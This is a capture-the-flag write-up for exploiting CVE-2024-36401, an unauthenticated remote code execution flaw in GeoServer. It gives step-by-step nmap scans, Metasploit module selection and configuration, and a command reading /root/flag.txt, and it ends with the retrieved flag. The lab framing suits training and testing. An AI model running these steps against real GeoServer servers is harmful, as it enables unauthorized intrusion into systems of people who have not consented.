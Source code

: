 # Vulnerability Exploitation Report: CVE-2024-36401

## Vulnerability Overview
**CVE ID**: CVE-2024-36401  
**CVSS Score**: 9.8 (Critical)  
**Description**: GeoServer, an open-source server for sharing geospatial data, contains a vulnerability in its OGC (Open Geospatial Consortium) request parameters that allows unauthenticated users to execute remote code execution (RCE). This critical flaw enables attackers to run arbitrary commands on the target system without authentication, posing a severe security risk.

## Objective
The goal is to exploit the CVE-2024-36401 vulnerability on a target GeoServer instance to gain unauthorized access and retrieve a flag file (`/root/flag.txt`) as part of a capture-the-flag (CTF) challenge.

## Target Information
- **Target IP**: 192.168.5.0
- **Target Port**: 8080 (assumed to be the GeoServer service port)
- **Attack Machine IP**: 192.168.0.5
- **Objective**: Retrieve the contents of `/root/flag.txt`

## Exploitation Steps

### Step 1: Network Discovery
To identify active hosts in the target network, perform a ping scan using `nmap` to discover devices on the 192.168.5.0/24 subnet.

```
nmap -sn 192.168.5.0/24
```

### Step 2: Service Enumeration
Once the target host (192.168.5.0) is identified, enumerate the services running on it to confirm the presence of GeoServer or other vulnerable services.

```
nmap -sV 192.168.5.0
```

### Step 3: Verify GeoServer Accessibility
Confirm that the GeoServer instance is accessible by sending an HTTP request to the target IP on port 8080, where GeoServer is typically hosted.

```
curl 192.168.5.0:8080
```

### Step 4: Launch Metasploit
Start the Metasploit Framework to access its exploit modules and tools for exploiting the GeoServer vulnerability.

```
msfconsole
```

### Step 5: Search for GeoServer Exploit
Search Metasploit’s database for an exploit module specific to GeoServer, particularly one addressing the CVE-2024-36401 vulnerability.

```
search geoserver
```

### Step 6: Select the Exploit Module
Choose the Metasploit exploit module designed for the GeoServer unauthenticated RCE vulnerability (CVE-2024-36401).

```
use exploit/multi/http/geoserver_unauth_rce_cve_2024_36401
```

### Step 7: Review Exploit Details
Display detailed information about the selected exploit module to understand its requirements, options, and payload capabilities.

```
info
```

### Step 8: Configure the Exploit
Set the target host for the exploit to the GeoServer instance’s IP address.

```
set RHOSTS 192.168.5.0
```

### Step 9: Execute the Exploit
Run the exploit to attempt remote code execution on the target GeoServer instance.

```
exploit
```

### Step 10: Retrieve the Flag
Once a shell or command execution is achieved, retrieve the contents of the flag file located at `/root/flag.txt`.

```
cat /root/flag.txt
```

## Final Result
The exploitation was successful, and the flag was retrieved from the target system.

**Flag**: i7uvAQZbDLuXkEfd